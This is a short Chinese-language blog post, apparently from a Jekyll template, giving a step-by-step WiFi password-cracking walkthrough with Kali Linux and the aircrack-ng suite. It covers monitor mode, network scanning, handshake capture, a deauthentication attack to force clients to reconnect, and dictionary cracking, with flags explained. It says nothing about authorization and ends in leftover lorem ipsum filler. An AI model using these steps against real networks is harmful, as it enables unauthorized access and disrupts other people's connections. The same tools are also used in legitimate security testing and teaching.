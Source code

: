 ```yaml
---
layout: post
---
```

<img src="/images/fulls/03.jpg" class="fit image"> 
  
## 实验过程

## 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
### 开启监听
>root@kali:~$ airmon-ng start wlan0
  
 ### 扫描目标wifi
 >root@kali:~$ airodump-ng wlan0mon
 
 ### 开始抓握手包
 >root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
 ### 强制客户端重连
>aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 ### 使用密码本破解
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
  +-w是指定我的密码本

Sed lobortis urna ut mi volutpat, sit amet euismod sapien tincidunt. Nulla facilisi. Pellentesque quis tempus neque. Mauris dictum ac sapien nec congue. In hac habitasse platea dictumst. Duis id pellentesque nisl. Morbi eget massa magna.
